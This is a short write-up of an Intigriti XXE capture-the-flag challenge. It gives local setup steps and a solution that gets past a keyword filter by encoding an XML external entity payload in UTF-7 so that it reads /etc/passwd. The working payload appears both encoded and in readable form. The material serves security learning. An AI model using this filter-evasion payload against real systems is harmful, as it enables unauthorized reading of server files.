 ## Initigriti XXE challenge POC

```
git clone https://github.com/rogueloop/intigriti-xxe-challenge.git
cd intigriti-xxe-challenge
php -S localhost:8000
```
Open `http://localhost:8000/xml_parser.php`
## challenge 
![Challenge Image](./486066540_18220552186292613_50405887802685493_n.jpeg)

## Solution 

The code has a sanitation for common XML keywords like SYSTEM and PUBLIC. We can use the utf 7 encoded payload from the intigriti article on XXE. The payload fetches the local file `/etc/passwd` from the server.
Make small changes to the payload change post_title to title and post_desc to desc. Since `+ACA-` is used for space in utf-7 the space between the `' SYSTEM '` will be filled so the match will fail. 

Payload used: 

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-xxe+ACA-SYSTEM+ACA-+ACI-file:///etc/passwd+ACI-+AD4-+AAo-+AF0-+AD4-+AAo-+ADw-data+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-post+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-title+AD4-+ACY-xxe+ADs-+ADw-/title+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-desc+AD4-xyz+ADw-/desc+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-/post+AD4-+AAo-+ADw-/data+AD4-
```

Article link : https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-advanced-xxe-vulnerabilities#:~:text=Exploiting%20XXE%20via%20UTF%2D7%20encoding 

Results: 

![Exploit](./exploit.png)

Here is a readable form of the payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
    <post>
        <title>&xxe;</title>
        <desc>xyz</desc>
    </post>
</data>
```
